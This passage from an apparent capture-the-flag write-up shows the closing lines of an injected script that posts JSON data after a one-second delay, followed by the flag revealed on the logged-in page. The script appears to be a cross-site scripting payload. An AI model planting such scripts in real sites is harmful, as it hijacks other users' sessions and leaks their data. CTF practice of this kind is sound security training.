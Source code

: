 ```html
            body: JSON.stringify(data),
        });

    }, "1000");

</script>
```
After refreshing the page on our side (while being logged-in), we can find the flag:
```html
<div class="alert alert-primary" role="alert">
    Informacja zwrotna: abc<br>
    flaga: FLAG{752e8db03d875cfec6bdf8305756f1bb}
</div>
```

